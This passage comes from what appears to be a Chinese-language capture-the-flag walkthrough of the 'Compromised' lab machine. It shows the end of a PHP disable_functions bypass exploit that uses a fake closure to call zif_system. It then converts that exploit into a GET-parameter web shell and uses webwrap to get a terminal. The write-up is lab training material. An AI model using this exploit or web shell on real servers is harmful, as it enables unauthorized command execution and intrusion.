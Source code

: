 ```php
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);

    exit();
}
```

再次修改上传

![]({{ site.url }}/assets/Compromised_207.assets/20201118094948858_1933349122.png)

验证

![]({{ site.url }}/assets/Compromised_207.assets/20201118095428384_223630697.png)

成功

现在修改文件的命令，尝试获得shell

![]({{ site.url }}/assets/Compromised_207.assets/20201118101055841_464742229.png)

上传后失败了

应该是出于某些原因不能reverse shell

这个脚本是可以转变为常规的web cmd

先将poc中的pwn部分改为php
`pwn($_GET['cmd']);`

![]({{ site.url }}/assets/Compromised_207.assets/20201118105509982_973032819.png)


浏览页面

![]({{ site.url }}/assets/Compromised_207.assets/20201118105614323_674617028.png)

现在获得了常用的webshell，虽然不能reverse shell，但我们现在可以进行舒适的操作了


后来经交流，还可以使用工具
webwrap
-- Give me a web shell, I'll give you a terminal.
`rlwrap python3 /usr/bin/webwrap.py http://10.10.10.207/shop/vqmod/xml/web_cmd_shell.php?cmd=WRAP`
